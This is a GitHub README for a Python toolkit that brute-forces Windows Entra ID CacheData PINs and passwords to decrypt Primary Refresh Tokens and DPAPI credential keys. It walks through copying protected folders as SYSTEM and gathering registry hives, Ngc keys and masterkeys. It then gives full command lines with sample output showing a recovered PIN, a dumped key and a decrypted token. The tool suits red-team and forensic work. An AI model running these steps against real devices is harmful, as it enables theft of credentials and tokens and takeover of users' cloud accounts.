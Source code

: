 # CacheData_decrypt

A simple Toolkit to BF and decrypt Windows EntraId CacheData.

```
usage: decrypt_cachedata.py [-h] {pin,password} ...

CacheData bruteforcer. On a live windows host, to copy the folders with all
subfolders and files: xcopy <folder> <destination> /H /E /G /C as SYSTEM. The
script will automatically iterates on each Entra ID user who has logged in on
the device. If you want to bruteforce the PIN for only one user, use the --sid
parameter.

positional arguments:
  {pin,password}  Available subparser (pin or password)
    pin           BF pin.
    password      BF password.

options:
  -h, --help      show this help message and exit
```

## Installation

Create a Python3 virtual env and install the requirements:

```
python3 -m venv ./my_venv
source ./my_venv/bin/activate
pip3 install -r requirements.txt
```

## Example

### PIN

Example to bruteforce a PIN, and decrypt the PRT + DPAPI CredKey.

Ensure to gather all required files and directories:

```
ls -ld CacheData secrets/Ngc/ PIN.txt secrets/system secrets/security secrets/Crypto/Keys/ secrets/masterkey/
-rw-r--r-- 1 user user    14036 Feb 15 11:12 CacheData
-rw-r--r-- 1 user user       21 Apr 22 10:56 PIN.txt
drwx------ 2 user user     4096 Feb 15 09:59 secrets/Crypto/Keys/
drwxr-xr-x 2 user user     4096 Apr  8 21:57 secrets/masterkey/
drwx------ 3 user user     4096 Feb 15 09:58 secrets/Ngc/
-rwxr-xr-x 1 user user    40960 Apr  8 21:56 secrets/security
-rwxr-xr-x 1 user user 12734464 Apr  8 21:56 secrets/system
```

Start the script with the ``pin`` argument and all required files and directories:

```
python3 decrypt_cachedata.py pin -C CacheData -N secrets/Ngc/ -P PIN.txt \
  --system secrets/system --security secrets/security --keys secrets/Crypto/Keys/ \
  --masterkey secrets/masterkey/

[+] Found PIN: 123456
[+] Parsing CacheData file CacheData
[+] CacheData file version is 0x2
[+] CacheData expected sha256: b'e56c1ec9d053dfd0618aaed1f5bd0ebbaecf9ed11917a526d5714b7c86101423'
[+] CacheData computed sha256: e56c1ec9d053dfd0618aaed1f5bd0ebbaecf9ed11917a526d5714b7c86101423
[+] RSA decrypt encrypted AES key 1
[+] AES decrypt encrypted AES key 2
[+] AES decrypt encrypted blob of size 0x1970 (DPAPI CredKey + PRT)
[+] Dumping raw DPAPI Cred key, with GUID c0c17f7a-2b1e-43ff-a739-f698b29469b5 (0x40 bytes):
00000000: D9 00 C8 20 3A 6E FB 10  EC AD AD 3A 02 28 31 7C  ... :n.....:.(1|
00000010: E4 31 4E 09 A0 CC BE 96  1D 31 FA C5 42 AF CC 56  .1N......1..B..V
00000020: 70 32 6B 1F A3 94 F8 15  B8 63 5A B2 69 A8 ED 07  p2k......cZ.i...
00000030: D4 71 1C 96 8F 49 18 64  23 0F 30 16 6C 6D 1B CE  .q...I.d#.0.lm..
[+] Dumping decrypted PRT file:
{
    "Version": 3,
    "UserInfo": {
        "Version": 2,
        "UniqueId": "57d07212-f77d-402f-90b1-f590b8890bb4",
        "PrimarySid": "S-1-12-1-1473278482-1076885373-2432020880-3020655032",
        ....
    }
    ...
}
```

### Password

Example to bruteforce a password, and decrypt the PRT + DPAPI CredKey.

Start the script with the ``password`` argument and provide the CacheData file and password list:

```
python3 decrypt_cachedata.py password -C CacheData -P password.txt

[+] Password: 'P@ssw0rd!'
[+] Dumping raw DPAPI Cred key, with GUID c0c17f7a-2b1e-43ff-a739-f698b29469b5 (0x40 bytes):
00000000: D9 00 C8 20 3A 6E FB 10  EC AD AD 3A 02 28 31 7C  ... :n.....:.(1|
00000010: E4 31 4E 09 A0 CC BE 96  1D 31 FA C5 42 AF CC 56  .1N......1..B..V
00000020: 70 32 6B 1F A3 94 F8 15  B8 63 5A B2 69 A8 ED 07  p2k......cZ.i...
00000030: D4 71 1C 96 8F 49 18 64  23 0F 30 16 6C 6D 1B CE  .q...I.d#.0.lm..
[+] Dumping decrypted PRT file:
{
    "Version": 3,
    "UserInfo": {
        "Version": 2,
        "UniqueId": "57d07212-f77d-402f-90b1-f590b8890bb4",
        "PrimarySid": "S-1-12-1-1473278482-1076885373-2432020880-3020655032",
        ....
    }
    ...
}
```
